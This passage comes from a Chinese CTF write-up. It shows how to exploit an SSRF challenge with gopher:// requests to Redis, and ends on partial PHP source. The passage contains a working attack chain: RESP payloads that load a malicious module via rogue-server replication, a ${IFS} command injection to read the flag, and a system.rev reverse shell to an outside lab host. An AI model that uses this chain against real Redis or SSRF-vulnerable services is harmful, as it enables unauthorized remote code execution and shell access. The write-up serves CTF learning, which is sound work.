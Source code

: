    ```shell
   *3
   $6
   MODULE
   $4
   LOAD
   $11
   /tmp/exp.so
   *2
   $11
   system.exec
   $14
   cat${IFS}/flag
   *1
   $4
   quit
   ```

   上面的payload其实是利用gopher协议执行了三条命令，拆分开来如下：

   ```shell
   gopher://0.0.0.0:6379/_auth root
   config set dir /tmp/
   quit
   //设置备份文件路径为/tmp/ 顺便说一下看到当时大佬的博客说试了很多目录，最后发现只有/tmp有权限 ，只需要有读权限即可，所以说平时做渗透或者做题好多试试啊
   
   gopher://0.0.0.0:6379/_auth root
   config set dbfilename exp.so
   slaveof 172.16.163.170 6666
   quit
   //设置备份文件名为：exp.so，设置主redis地址为172.16.163.170，端口为6666 地址为buu开启的linux lab地址
   
   gopher://0.0.0.0:6379/_auth root
   module load /tmp/exp.so
   system.rev 172.16.163.170 6663
   quit
   //导入 exp.so ，反弹shell到172.16.163.170:6663
   
   ```

   

9. 因为题目用到curl，因此还需将生成的payload进行一次url编码。（[推荐网站](http://www.jsons.cn/urlencode/)）

   然后python rogue-server.py进行监听。在题目web界面输入两次url=payload，即可获得flag。

   <img src="images/image-20210120152730096.png" alt="image-20210120152730096" style="zoom:50%;" />

   <img src="images/image-20210120152711275.png" alt="image-20210120152711275" width="50%;" />

10. 附录源码：

```php
<?php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
```